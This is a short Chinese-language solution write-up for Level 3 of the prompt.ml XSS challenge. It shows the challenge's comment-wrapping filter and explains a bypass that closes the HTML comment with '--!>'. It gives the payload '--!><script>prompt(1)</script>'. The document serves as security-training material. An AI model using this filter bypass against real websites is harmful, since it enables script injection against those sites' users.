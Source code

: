 ## [[prompt(1) to win](http://prompt.ml)] [[Level 3 - HTML Comment](http://prompt.ml/3)] [[解题报告](http://exp-blog.com/2019/03/18/pid-3631/)]

------

## 题目

```javascript
function escape(input) {
    // filter potential comment end delimiters
    input = input.replace(/->/g, '_');

    // comment the input to avoid script execution
    return '<!-- ' + input + ' -->';
}
```

------

## 解题报告

正则把 `->` 过略了，导致我们无法闭合注释。

但是 HTML 注释还有另一种闭合方式：`<!--  xxxxx  --!>`

因此构造这样的 payload 即可实现绕过：`--!><script>prompt(1)</script>`

![](http://exp-blog.com/wp-content/uploads/2019/03/8c6abaa3793d56b7ba03c8e602401451.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
